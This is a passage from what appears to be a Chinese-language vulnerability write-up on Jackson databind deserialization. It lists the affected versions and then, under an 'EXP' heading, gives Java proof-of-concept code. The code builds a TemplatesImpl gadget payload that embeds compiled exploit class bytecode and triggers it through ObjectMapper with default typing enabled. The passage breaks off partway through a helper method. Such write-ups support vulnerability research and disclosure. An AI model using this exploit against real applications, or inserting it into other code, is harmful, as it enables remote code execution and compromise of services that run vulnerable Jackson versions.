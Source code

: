 ## 影响版本:

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

JDK使用1.7版本的，不能使用1.8版本，具体原因后面章节会分析到。

## EXP

```java
package TemplatesImpl;

public class AnotherClass {

        public Object object;

}
```



```java
package TemplatesImpl;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xml.internal.security.utils.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class Poc {
    public static void main(String[] args)  {
        String exp = readClassStr("./target/classes/TemplatesImpl/Exploit.class");
        String jsonInput = aposToQuotes("{\"object\":['com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "{\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'Yasax1',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "]\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        AnotherClass anotherClass;
        try {
            anotherClass = mapper.readValue(jsonInput, AnotherClass.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls){
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
```